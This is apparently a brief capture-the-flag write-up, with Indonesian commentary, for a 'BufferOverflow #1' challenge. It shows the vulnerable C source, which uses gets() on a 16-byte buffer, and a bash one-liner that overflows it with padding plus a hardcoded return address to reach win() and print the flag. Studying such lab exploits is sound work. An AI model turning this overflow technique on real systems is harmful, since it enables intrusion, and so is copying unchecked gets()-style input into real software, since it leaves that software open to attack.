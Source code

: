 # BufferOverflow #1

<img src="bufo1.png"><br>
hanya dengan menoverwrite alamat fungsi win untuk mencetak flag<br>
<img src="bufo1a.png"><br>

```
#include <stdio.h>

void win()
{
	printf("You win!\n");
	char buf[256];
	FILE* f = fopen("./flag.txt", "r");
	if (f == NULL)
	{
		puts("flag.txt not found - ping us on discord if this is happening on the shell server\n");
	}
	else
	{
		fgets(buf, sizeof(buf), f);
		printf("flag: %s\n", buf);
	}
}

void vuln()
{
	char buf[16];
	printf("Type something>");
	gets(buf);
	printf("You typed %s!\n", buf);
}

int main()
{
	/* Disable buffering on stdout */
	setvbuf(stdout, NULL, _IONBF, 0);

	vuln();
	return 0;
}
```


<br>


```
for i in {1..50}; do echo $i; python -c "print 'A'*$i + '\xb2\x91\x04\x08'"| ./bufover-1 ;done
```

<br>


